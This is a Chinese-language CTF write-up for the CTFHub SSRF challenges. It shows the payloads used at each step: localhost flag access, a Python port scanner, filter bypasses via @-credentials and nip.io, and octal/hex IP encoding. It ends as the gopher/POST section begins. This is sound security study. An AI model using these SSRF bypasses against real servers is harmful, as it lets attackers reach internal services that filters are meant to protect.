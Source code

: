 ## ssrf

[toc]

> SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种网络安全漏洞，攻击者通过它可以利用受害服务器向自己控制或信任的服务器发送恶意请求。简单来说，SSRF 允许攻击者通过受害服务器来访问或操作内部网络资源，这些资源通常在正常情况下是无法从外部访问的。

### 内网访问

> 题目要求：
>
> 尝试访问位于127.0.0.1的flag.php吧

进入页面发现有一个参数`url=`

```http
?url=127.0.0.1/flag.php
```

得到flag

```
ctfhub{5706b946ec071bda6cc7f7c5}
```



### 端口扫描

> 来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦,

#### 方法一 -- BP

在BP的爆破模块

![image-20240827221655844](https://gitee.com/bx33661/image/raw/master/path/image-20240827221655844.png)

设置以上规则，开始爆破

![image-20240827221732200](https://gitee.com/bx33661/image/raw/master/path/image-20240827221732200.png)

发现8833端口长度不一样，发送到发送模块

![image-20240827221820821](https://gitee.com/bx33661/image/raw/master/path/image-20240827221820821.png)

得到flag

```
ctfhub{5b8bcb5953759711292d2fee}
```



#### 方法二--python脚本

```python
import socket
from concurrent.futures import ThreadPoolExecutor

# 定义扫描函数
def scan_port(host, port):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(1)
            s.connect((host, port))
            return port, True
    except (socket.timeout, socket.error):
        return port, False

# 扫描主机的指定端口范围
def scan_ports(host, start_port, end_port):
    open_ports = []
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(scan_port, host, port) for port in range(start_port, end_port + 1)]
        for future in futures:
            port, is_open = future.result()
            if is_open:
                open_ports.append(port)
    return open_ports

# 输入主机地址和端口范围
host = input("请输入要扫描的主机地址: ")
start_port = int(input("请输入开始端口: "))
end_port = int(input("请输入结束端口: "))

# 扫描并显示结果
print(f"正在扫描 {host} 的端口范围 {start_port}-{end_port} ...")
open_ports = scan_ports(host, start_port, end_port)

if open_ports:
    print(f"以下端口是打开的: {open_ports}")
else:
    print("未发现打开的端口。")
```

以上是借助gpt辅助写的



### URL Bypass

> 题目描述：
>
> 请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

1. 使用?url=http://notfound.ctfhub.com@127.0.0.1/flag.php

```http
http://notfound.ctfhub.com@127.0.0.1/flag.php
```

`notfound.ctfhub.com` 是作为凭据的一部分，而实际的服务器地址是 `127.0.0.1`（即本地主机）。这种用法通常在现代浏览器中是不会被解析为有效的凭据部分，甚至可能会触发安全警告或被忽略。

**这里做一个测试**

```php
# 这里我尝试访问http://www.bx33661.com@www.google.com
```

直接就到Google主页

![image-20240827224047282](https://gitee.com/bx33661/image/raw/master/path/image-20240827224047282.png)



> 在网上发现大佬的做法：
>
> 1. [使用nip.io](http://xn--nip-hb0er53o.io/)
>
>    > `.nip.io` 是一个特殊的域名后缀，它提供了一种免费且简便的方式，可以将特定格式的域名解析为对应的IP地址，可以作为应用路由的解析服务。这省去了配置本地hosts文件的步骤。
>    >
>    > 例如，当访问`http://<anything>-<IP Address>.nip.io`时，它将解析到对应的IP地址`<IP Address>`。
>
>    - payload：`?url=http://notfound.ctfhub.com.127.0.0.1.nip.io/flag.php`
>
>    [![img](https://git.acwing.com/w2x/data_bank/-/raw/master/img/study/CTF/CTFHub/web/SSRF/51.png)](https://git.acwing.com/w2x/data_bank/-/raw/master/img/study/CTF/CTFHub/web/SSRF/51.png)
>
> 2. 利用`xip.io`（可以直接访问该域名，里面有详细说明）
>
>    > `.xip.io` 的功能是将 `notfound.ctfhub.com` 这个子域名解析到本地机器的IP地址 `127.0.0.1`。
>
>    - 尝试发现，`xip.io`被ban了
>
>    [![img](https://gitee.com/bx33661/image/raw/master/path/52.png)](https://git.acwing.com/w2x/data_bank/-/raw/master/img/study/CTF/CTFHub/web/SSRF/52.png)



### 数字IP BYPASS

> 题目要求：这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢

```url
http://challenge-6a621c5636461c9f.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php

hacker! Ban '/127|172|@/'
```

1. 进制绕过

```markdown
八进制：0177.000.000.001
十进制：127.0.0.1
十六进制：0x7f000001
```

得到flag

```
ctfhub{8a5971c56e6a1ca0282c7a4e}
```

2. 使用`localhost`
3. IP转为int数字

> IP 地址本质上是一个 32 位的二进制数（对于 IPv4 而言），可以被表示为一个整数。这种转换在计算机网络中非常常见，用于将人类可读的点分十进制格式（例如 192.168.1.1）转换为计算机更容易处理的整数格式。

![image-20240827225135585](https://gitee.com/bx33661/image/raw/master/path/image-20240827225135585.png)



### POST请求

> 题目要求：这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年

#### gopher协议

*Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，Gopher失去了昔日的辉煌。现在它基本过时，人们很少再使用它；*